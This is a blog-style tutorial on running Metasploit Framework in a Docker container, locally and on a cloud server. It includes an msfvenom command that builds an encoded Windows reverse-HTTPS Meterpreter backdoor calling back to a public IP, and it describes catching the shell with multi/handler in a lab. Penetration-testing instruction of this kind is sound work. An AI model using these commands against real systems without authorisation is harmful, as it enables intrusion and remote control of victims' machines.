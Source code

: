 :page-title: Run Metasploit Framework as a Docker Container
:page-author: Jiffy
:page-avatar: devlopr.png
:page-image: containers.jpg
:page-category: guides
:page-tags: [ ops ]
:page-excerpt: Run Metasploit Framework as a Docker Container Without Installation Pains

== Run Metasploit Framework as a Docker Container Without Installation Pains

Metasploit Framework is a powerful open source tool for penetration testing. Whether you’re looking to use it for work or are merely interested in experimenting with it, you can run Metasploit Framework in a Docker container without having to deal with the pain of installing the code and its dependencies. The Docker image “remnux/metasploit” is available as part of the REMnux collection, thanks to the configuration efforts of Jean Christophe Baptiste.

The following instructions and examples demonstrate how you can start using this Metasploit Docker container in a lab as well as on a publicly-accessible server. The container provides the command-line Metasploit Framework version of the tool. It lacks the web-based interface that you can get if you install the free Community edition, which you would need to register with Rapid 7. Command-line capabilities of Metasploit Framework are very powerful and lend themselves well to penetration testing tasks that involve running the tool on a remote system.

== How to Launch the Metasploit Framework Docker Container

To make use of the Metasploit Framework Docker image, all you need is a sufficiently-powerful system that is connected to the Internet and that has Docker installed on it. When you run a command like the one below on such a host, it will automatically download the image from the REMnux repository and launch it:

----
sudo docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
----

In this example, I directed Docker to run the application “remnux/metasploit” in a transient container, which will disappear once you’ve exited it (that’s what “–rm” is for). The “-it” parameter allows you to interact with the container using an interactive shell.

To ensure that relevant data persists across container invocations, I used the “-v” parameter to map the directories on my host to the corresponding locations inside the container. The idea is to use the “~/.msf4” directory for Metasploit Framework configuration files. The “/tmp/msf” directory on the host can store other data you may wish to keep, such as the artifacts you might obtain from the targeted systems.

The “-p” parameter maps the ports on which you expect to receive inbound connections to the corresponding ports inside the container. The example above uses TCP port 443 with the expectation of incoming HTTPS connections from reverse shells.

The image is quite large: over 1.2GB in size, because it includes the full runtime environment for Metasploit Framework, along with all its dependencies. It will be cached locally after the initial download. If you ever wish to refresh the image to ensure you’re using the latest version use the command “sudo docker pull remnux/metasploit”.

The container is configured to automatically update Metasploit modules whenever you launch it. To add your own modules, add them to your host’s ~/.msf4 directory.

== Test-Driving the Metasploit Framework Container

Here’s how you might start experimenting with Metasploit Framework after launching its “remnux/metasploit” container in your lab. I’ll target a weakly-configured Windows system in my lab for example purposes. I’ll direct Metasploit Framework to remotely connect to the system using the credentials that I supplied, rather than actually exploiting a vulnerability. I will then open a reverse HTTPS shell to my Metasploit Framework console.

In the sample session above, I launched Metasploit’s msfconsole tool, then directed it to give me an interactive Meterpreter shell to the targeted system. The connection was tunneled over HTTPS, which was directed to the Metasploit Framework container over TCP port 443.

The screenshot that I saved using this session was placed in the /tmp/data directory inside the container. When I exited the container, the contents of that directory persisted on my underlying host in the /tmp/msf directory.

== Running the Metasploit Framework Container in the Public Cloud

When performing penetration testing, you’ll probably want to run Metasploit on an Internet-accessible system. You can do this quite easily by bringing up a temporary server within some public cloud provider, then running the Metasploit Framework container on that host.

For instance, here is how you can accomplish this using DigitalOcean, which I like to use due to its low cost and high reliability. (The link includes my referral code.) Though DigitalOcean can spin up virtual machines for merely $5 per month, I found such a low-end system to have insufficient RAM for Metasploit. Therefore, I went with the $10 per month option for an Ubuntu host.

Once the new system is active, you can log into it and execute the following commands to install Docker on the host:

----
apt-key adv --keyserver hkp://p80.pool.sks-keyservers.net:80 --recv-keys 58118E89F3A912897C070ADBF76221572C52609D
add-apt-repository -y "deb https://apt.dockerproject.org/repo ubuntu-$(lsb_release -sc) main"
apt-get update
apt-get -y dist-upgrade
apt-get -y install docker-engine
----

Afterwards, you can direct Docker to download and launch the Metasploit Framework container using the command like the one in the beginning of this article.

----
sudo docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
----

For this example, I decided to use Metasploit to generate a standalone backdoor executable file, which I would run on the targeted Windows system to simulate a scenario where the victim is tricked into running malware. I ran the “msfvenom” tool inside the Metasploit Framework container to accomplish this:

----
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https LHOST=104.236.213.164 LPORT=443 -e x86/shikata_ga_nai -f exe -o file.exe
----

Since the current directory inside the container is /tmp/data by default, the resulting file was placed there. Because I mapped this directory to the host’s /tmp/msf directory, I was able to take it from there and transfer it to my lab’s Windows computer.

I then ran “msfconsole” inside the container and directed the tool to use multi/handler, which is designed to accept connections generated outside of the “msfconsole” interface. Once the reverse-HTTPS listener was active, I “infected” my Windows system with the previously-created file.exe, which completed the connection and provided me with a Meterpreter shell.

As was the case in the previous example, I saved the screenshot of the Windows system into /tmp/data, which allowed me to retain it even after the container terminated.

== Additional Capabilities of the Container
The Metasploit Framework container also includes the infamous Nmap scanning tool, which you can run using the “nmap” command. It offers a powerful way to examine networks and systems to locate potentially-vulnerable services and to determine where to focus your Metasploit efforts. The container also includes the NASM disassembler.

In addition the container includes the tmux terminal multiplexer utility. It allows you to launch multiple “virtual” windows inside a single terminal window. The container’s configuration for this tool maps Ctrl+a as the command key, instead of the default Ctrl+b. To make use of it, type “tmux” after launching the Metasploit Framework container. This will give you a shell inside one of the tool’s “virtual” window. To open another one, press Ctrl+a followed by “c”. To switch between the windows, type Ctrl+a followed by that window’s number (e.g., Ctrl+a followed by “0” or “1”).

For example, you could use tmux to run nmap in one window and msfconsole in another. You can read a tutorial on using tmux to get started with this tool.


== Wrapping It Up
Docker containers offer a convenient way of running Metasploit Framework without having to deal with the installation of the tool’s code and its dependencies. Running Metasploit this way is especially handy for situations where you wish to quickly deploy it to a new system, such as one running in a public cloud, and then tear it down without losing your customizations or data. On the other hand, this approach requires some familiarity with Docker containers.

Thanks to Jean Christophe Baptiste for creating and maintaining the Dockerfile and associated configuration files upon which the “remnux/metasploit” image is based. If you notice any problems with this container or have suggestions for improving it, please log an issue on the REMnux repository for Docker files.

== Web links

* link:https://zeltser.com/metasploit-framework-docker-container/